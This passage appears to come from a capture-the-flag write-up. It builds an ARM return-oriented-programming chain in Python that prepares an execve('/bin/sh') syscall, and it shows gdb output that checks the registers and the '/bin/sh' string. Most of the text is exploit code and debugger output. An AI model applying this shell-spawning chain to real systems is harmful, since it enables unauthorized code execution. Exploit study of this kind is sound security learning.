 ```
shellcode += p32(0x207ab)

shellcode += p32(0x0)
shellcode += p32(0x0004392d)

shellcode += p32(0x0)
shellcode += p32(0x50f0f)
```

Then, we formed the ROP chain for the remainder of the exploit. The concept of preparing a syscall to `<execve>` in ARM is largely similar to that in x86. The difference lies in the name of the registers used to contain the arguments and the syscall number. In ARM, `r7` contains the syscall number.

> 	So registers r0 to r3 will be dealing with function parameters. Registers r4 to r9 will be for variables. On the other hand register r7 will store the address of the Syscall to execute.
>  
> -- [Exploit databases: How to Create a Shellcode on ARM Architecture](https://www.exploit-db.com/papers/15652/)


```
shellcode += p32(ADDR_OF_BINSH)	#r0
shellcode += p32(0x0)				#r1
shellcode += p32(0x0)				#r2
shellcode += p32(0x0)				#r3
shellcode += p32(0x0)				#r4
shellcode += p32(0x0)				#r5
shellcode += p32(0x0)				#r6
shellcode += p32(0xb)				#r7 (syscall #11 is execve)
shellcode += p32(0x10a45)

shellcode += p32(0xb)
shellcode += p32(0x10a45)
```

We also wrote the ROP chain into a file I arbitrarily named `debug_input` for the purpose of debugging.
```
f = open('debug_input', 'w')
f.write(shellcode)
f.close()
```

As of this writing, we only got started with radare2, so we were not familiar with the its powers. We were more used to gdb, so we used it to debug the shellcode. We checked for things like whether the ROP gadget (`add r0, r4`) incremented `r0` by `0x4` as intended, and whether the string "/bin/sh" was placed properly in its intended address `0x79088`.
```
0x0004392e in ?? ()
gdb-peda$ info registers
r0             0x79088	0x79088
[...]
gdb-peda$ ni
0x000207aa in ?? ()
gdb-peda$ ni
0x000207ac in ?? ()
gdb-peda$ info registers
r0             0x7908c	0x7908c
[...]
0x00010a44 in ?? ()
gdb-peda$ x/s $r0
0x79088:	"/bin/sh"
```
